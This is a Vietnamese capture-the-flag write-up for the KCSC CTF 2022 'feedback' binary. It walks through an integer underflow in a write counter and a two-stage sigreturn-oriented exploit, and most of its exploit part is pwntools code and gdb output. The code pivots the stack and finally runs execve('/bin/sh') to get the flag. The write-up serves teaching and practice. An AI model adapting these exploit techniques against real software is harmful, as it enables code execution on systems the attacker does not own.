# KCSC CTF 2022 - readOnly

Các bạn có thể tải chall ở repo của mình: [feedback.zip](feedback.zip)

# 1. Tìm lỗi

Decompile với ghidra, ta thấy đoạn code sau:



Chương trình sẽ yêu cầu ta nhập vào 8 byte, sau đó sẽ so sánh `COUNT`, nếu lớn hơn `0xd0` thì sẽ ghi vào vị trí `stack+COUNT`, ngược lại thì không ghi mà vẫn trừ `COUNT`.

Để ý rằng `COUNT` nó sẽ liên tục bị trừ đi 8 và nếu COUNT trừ về bằng 0 nhưng vẫn trừ tiếp thì sẽ ra số âm, làm cho `COUNT` bằng `0xfff8` và địa chỉ mà nó sẽ ghi là `stack+0xfff8` --> **Integer Overflow**

# 2. Ý tưởng

Với **Integer Overflow**, ta có thể làm cho chương trình chạy từ `0xfff8` nhỏ dần xuống `0x100` để thực hiện rop. Tuy nhiên vì đi ngược nên payload đưa vào cũng sẽ theo thứ tự ngược lại.

Nhưng trước tiên, ta sẽ tìm xem coi có những gadget nào có thể sử dụng được:

```gdb
$ROPgadget --binary feedback
...
0x000000000040111e : mov eax, 0x3c ; xor rdi, rdi ; syscall
0x00000000004010ce : mov eax, 0xf ; nop ; syscall
0x00000000004010cc : mov ebp, esp ; mov eax, 0xf ; nop ; syscall
...
```

Ta chỉ thấy có 1 cái giúp ta thực hiện srop là `mov eax, 0xf ; nop ; syscall`. Vậy ý tưởng sẽ là thực hiện srop lần 1 để stack pivot thành địa chỉ mà ta xác định được. Sau cái srop lần 1 đó, ta vừa stack pivot, vừa thực hiện SYS_read để nhập sigframe và thực hiện srop lần 2.

Tóm tắt:
- Stage 1: First SROP
- Stage 2: Second SROP

# 3. Khai thác

### Stage 1: First SROP

Trước tiên, ta debug với gdb để tìm xem coi ta phải nhập tổng cộng bao nhiêu lần thì mới có thể thay đổi saved rip:



Vậy ta cần phải ghi `8157 + 30 = 8187` lần là sẽ reach saved rip. Ta có đoạn script sau để test thử:

```python
for i in range(8157 + 30):
    p.sendafter(b'complete', b'AAAAAAAA')
input(str(p.pid))
p.sendafter(b'complete', b'quitquit')
```

Chạy script và debug với gdb, chạy từng câu lệnh cho tới khi chương trình thực hiện `leave ; ret` và ta để ý stack sẽ thấy vẫn còn thiếu 2 lần nữa:



Vậy số lần ta cần nhập sẽ là `8189` thì sẽ overwrite saved rip. Vậy bây giờ ta sẽ tạo payload và cho nó nhập lần lượt vào xem coi sao.

Trước tiên, ta dùng gdb để lấy đoạn địa chỉ ghi được:

```gdb
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x00000000400000 0x00000000401000 0x00000000000000 r-- /home/nguyenhuutri/CTF/KCSC/feedback/feedback
0x00000000401000 0x00000000402000 0x00000000001000 r-x /home/nguyenhuutri/CTF/KCSC/feedback/feedback
0x00000000402000 0x00000000403000 0x00000000000000 rw- 
0x007ffdcb3d5000 0x007ffdcb3f6000 0x00000000000000 rw- [stack]
0x007ffdcb3f8000 0x007ffdcb3fc000 0x00000000000000 r-- [vvar]
0x007ffdcb3fc000 0x007ffdcb3fe000 0x00000000000000 r-x [vdso]
```

Vậy đoạn địa chỉ ghi được nằm trong khoảng `0x402000` tới `0x403000`. Vậy bây giờ ta tạo frame để stack pivot và thực hiện read 1 lần nữa (syscall mà ta dùng trong frame là syscall của read từ chương trình mà sau khi read xong sẽ kiểm tra xem chuỗi được nhập có chữ cái đầu là `q` hay không nha)

```python
frame = SigreturnFrame()
frame.rax = 0
frame.rdx = 0x300
frame.rsi = 0x00000000402000
frame.rdi = 0
frame.rbp = 0x00000000402000
frame.rsp = 0x00000000402008
frame.rip = 0x401082
```

Và ta tạo nên 1 cái payload như sau:

```python
sigreturn = 0x00000000004010ce
payload = flat(
    bytes(frame),
    sigreturn,
    )
payload = payload.rjust(8*8189, b'P')

for i in range(0, len(payload), 8):
	print(i/8, end='\r')
    p.sendafter(b'complete', payload[i:i+8])
input(str(p.pid))
p.sendafter(b'complete', b'quitquit')
```

Ta dùng `rjust` để pad payload dài đủ `8189*8` byte. Và bởi vì ta nhập input ngược từ dưới lên nên payload ta phải pad trước rồi mới tới frame rồi mới tới gadget sigreturn.

Chạy thử script và debug với gdb để xem liệu payload của ta có được ghi vào đúng hay không:



Trông có vẻ ổn đấy. Địa chỉ `0x00000000004010ce` đúng là địa chỉ của gadget rồi nên ta cho chương trình chạy tiếp thử coi sao:



Ta thấy nó không giống với frame mà ta tạo. Vậy thêm đoạn code này vào trước đoạn code bên trên để in ra frame và so sánh với frame được nhập vào:

```python
for i in range(0, len(frame), 0x10):
    try:
        print(hex(u64(bytes(frame)[i:i+8])), hex(u64(bytes(frame)[i+8:i+0x10])))
    except:
        print(bytes(frame)[i:i+8], bytes(frame)[i+8:i+0x10])

sigreturn = 0x00000000004010ce
payload = flat(
    bytes(frame),
    sigreturn,
    )
payload = payload.rjust(8*8189, b'P')

for i in range(0, len(payload), 8):
	print(i/8, end='\r')
    p.sendafter(b'complete', payload[i:i+8])
input(str(p.pid))
p.sendafter(b'complete', b'quitquit')
```

Chạy lại thôi nào. Đây là dump của frame:



Còn đây là stack sau khi input:



Ta thấy cái frame của ta bị đảo ngược lại khi input. Vậy trước khi ta nhập input, ta cần phải đảo ngược frame của ta mỗi 8 byte rồi hẵn nhập. Vậy đoạn code bên trên update lại thành:

```python
reverse_frame = b''.join([bytes(frame)[i:i+8] for i in range(len(frame), -1, -8)  ])
sigreturn = 0x00000000004010ce
payload = flat(
    bytes(reverse_frame),
    sigreturn,
    )
payload = payload.rjust(8*8189, b'P')
for i in range(0, len(payload), 8):
	print(i/8, end='\r')
    p.sendafter(b'complete', payload[i:i+8])
input(str(p.pid))
p.sendafter(b'complete', b'quitquit')
```

Ta chạy lại script và debug với gdb, cho chương trình chạy thử cái gadget sigreturn và ta kiểm tra xem liệu các register có được set đúng hay chưa:



Vậy là ta đã thực hiện sigreturn lần 1 thành công.

### Stage 2: Second SROP

Tiếp theo, chương trình sẽ yêu cầu ta nhập sau khi sigreturn 1 thành công. Nhập 8 byte đầu để so sánh với chữ `quit` nên cái frame ta set nó là `0x402008` để không bị sai do 8 byte đầu đó. 

Nhập 8 byte đầu là chữ `quit` và phần còn lại là 1 cái sigframe khác để thực thi syscall execve. Lúc này ta nhập thoải mái, không cần phải đảo ngược cái frame lại chi nữa.

Vậy frame ta tạo sẽ là:

```python
syscall = 0x0000000000401067
frame = SigreturnFrame()
frame.rax = 0x3b
frame.rdi = 0xdeadbeef
frame.rsp = 0x00000000402000
frame.rip = syscall
```

Payload dự tính sẽ là 8 byte đầu ghi `quitquit`, gadget sigreturn, frame và chuỗi `"/bin/sh"` nhưng không biết địa chỉ của chuỗi `"/bin/sh"` là bao nhiêu nên rdi ta tạm thời để là 0xdeadbeef.

Tạo payload và nhập vào chương trình rồi debug với gdb để tìm địa chỉ của chuỗi `"/bin/sh"`:

```python
payload = b'quitquit' + p64(sigreturn) + bytes(frame) + b'/bin/sh\x00'
p.send(payload)
```

Sau khi nhập payload 2 vào và kiểm tra stack:



Vậy địa chỉ của chuỗi `"/bin/sh"` là `0x402108`. Vậy frame cập nhật lại thành:

```python
syscall = 0x0000000000401067
frame = SigreturnFrame()
frame.rax = 0x3b
frame.rdi = 0x402108
frame.rsp = 0x00000000402000
frame.rip = syscall
```	

Vậy là mọi thứ đã được set up. Chạy lại script và lấy flag thôi nào!

Full code: [solve.py](solve.py)

Cơ mà do là hàm read nên mình có thể gom payload lại làm 1 và input 1 lần duy nhất là được rồi, khỏi phải chạy nhiều lần nên ta có script 2: [solve_2.py](solve_2.py)

Ở script 2 này mình sẽ chỉnh cái payload 1 ở chỗ pad `payload1 = payload1.rjust(8*8190, b'P')` và thêm 8 byte chữ `quitquit` vào.

# 4. Lấy cờ





Flag là `KCSC{50e32e708be4d5f635ecd7ba63735100}`